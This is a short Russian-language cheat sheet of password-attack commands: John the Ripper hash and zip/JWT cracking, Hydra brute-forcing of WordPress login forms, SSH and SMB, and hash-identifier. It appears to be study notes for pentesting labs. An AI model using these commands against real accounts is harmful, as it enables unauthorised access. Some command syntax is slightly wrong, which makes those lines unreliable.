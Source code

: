 ## John the ripper
Имея hash пароля пытается подобрать верный пароль.
Пример:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format={hash format, напримире bcrypt} resultFile.txt
```
### MD5
Пример:
```bash 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```bash
john hash.txt --show
```
### Zip archive
```bash
zip2john archive.zip g arch.hash
john arch.hash -o rockyou.txt
```
### JWT
```bash
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```
## Hydra
Пример брутфорса пародя внутри формы авторизации на wordpress/wp-login.php:
```bash 
hydra -L {username} -p {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```bash
hydra -l {username} -P {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Пример брутфорса пароля SSH на порту 2222:
```bash
hydra -l {username} -P {brutList.txt} ssh:10.10.1.2:2222
```
Брутфорс авторизации по smb:
```bash
hydra -L users.txt -P pass.txt {IP} smb -V
```
## Взлом Hash-а - hash-identifier
```bash
hash-identifier
HASH: {hash}
```